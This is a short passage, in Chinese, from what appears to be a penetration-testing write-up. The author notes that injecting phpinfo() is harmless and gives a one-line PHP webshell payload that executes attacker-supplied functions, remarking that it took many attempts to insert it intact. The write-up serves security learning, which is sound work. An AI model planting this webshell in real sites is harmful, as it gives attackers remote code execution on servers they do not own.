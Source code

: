 无疑写 phpinfo() 是很容易成功的，但是 phpinfo() 并无实质性危害，我们需要插入真正的 webshell 才可以：

```php
$miniPayload = '<?php $_GET[0]($_POST[1]);?>';
```

> 这里非常玄学，在国光经历了不知道多少次失败后，才成功将上面的 payload 完整插入

![](imgs/1603675937154.jpg) 
